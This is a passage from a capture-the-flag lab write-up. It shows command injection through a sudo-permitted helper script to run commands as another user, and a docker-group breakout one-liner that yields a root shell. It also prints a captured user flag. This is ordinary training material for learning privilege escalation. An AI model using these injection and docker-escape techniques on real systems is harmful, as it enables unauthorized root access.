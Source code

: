 ```
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```
It means we can use `sudo` for running the specified command on behalf of `apaar` user. Furthermore, by analyzing `.helpline.sh` code, we can see that we can inject commands, so we can run commands on behalf of `apaar` user:
```
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: test
Hello user! I am test,  Please enter your message: cat /home/apaar/local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
Thank you for your precious time!
```
So, we got the user flag inside `local.txt`.

## Phase 3: Privilege Escalation

By running `id` command, we notice that `anurodh` user belongs to the docker group:
```
id

uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```
It means we can perform a privilege escalation by running:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# whoami
root
```

Now we can get the root flag by `cat /root/proof.txt`.